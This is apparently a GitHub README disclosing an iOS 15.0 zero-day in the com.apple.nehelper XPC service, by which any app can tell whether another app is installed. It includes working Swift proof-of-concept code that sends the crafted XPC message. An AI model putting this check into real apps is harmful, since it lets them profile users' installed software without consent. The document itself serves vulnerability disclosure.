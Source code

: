 # nehelper enumerate installed apps 0-day (iOS 15.0)

I've updated this code to avoid using Private API directly. Read more in my [blog post](https://habr.com/en/post/580272/). However, that means that now this code is iOS version-specific and possibly device model-specific. So if it doesn't work on your device, recalculate and update the offsets in `c.c` file. The original code can be found in [direct](https://github.com/illusionofchaos/ios-nehelper-enum-apps-0day/tree/direct) branch.

The vulnerability allows any user-installed app to determine whether any app is installed on the device given its bundle ID.

XPC endpoint "com.apple.nehelper" has a method accessible to any app that accepts bundle ID as a parameter and returns an array containing some cache UUIDs if the app with matching bundle ID is installed on the device or an empty array otherwise.
This happens in  `-[NEHelperCacheManager onQueueHandleMessage:]` in `/usr/libexec/nehelper`.

```
func isAppInstalled(bundleId: String) -> Bool {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)!
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 1)
    xpc_dictionary_set_uint64(xdict, "cache-command", 3)
    xpc_dictionary_set_string(xdict, "cache-signing-identifier", bundleId)
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let resultData = xpc_dictionary_get_value(reply, "result-data"), xpc_dictionary_get_value(resultData, "cache-app-uuid") != nil {
        return true
    }
    return false
}
```

